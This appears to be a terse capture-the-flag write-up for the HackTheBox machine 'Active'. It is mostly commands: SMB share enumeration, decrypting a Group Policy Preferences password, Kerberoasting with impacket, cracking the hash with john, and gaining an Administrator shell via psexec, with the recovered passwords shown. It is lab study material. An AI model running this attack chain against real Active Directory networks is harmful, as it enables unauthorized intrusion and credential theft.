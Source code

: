 Active
========================

    sudo nmap_enum active.htb | tee nmap_output.txt

Aqui sossegado:

    smbclient -L //10.10.10.100
    smbclient //10.10.10.100/Replication -c 'recurse true; ls'
    
![qownnotes-media-vtsXyC](../../../media/qownnotes-media-vtsXyC.png)

    smbclient //10.10.10.100/Replication
    cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
    get Groups.xml

# Exploitation

    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ


![qownnotes-media-jysviZ](../../../media/qownnotes-media-jysviZ.png)

    impacket-psexec active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
    
    impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

# Privilege Escalation
    
    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
    
![qownnotes-media-tKQdxa](../../../media/qownnotes-media-tKQdxa.png)

![qownnotes-media-qApPLP](https://github.com/alisonocosta/InfraHacking/blob/main/.gitbook/assets/qownnotes-media-qApPLP.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    
    impacket-psexec 'active.htb/Administrator:Ticketmaster1968@10.10.10.100'
    
![qownnotes-media-LCzGOy](https://github.com/alisonocosta/InfraHacking/tree/main/.gitbook/assets/qownnotes-media-LCzGOy.png)
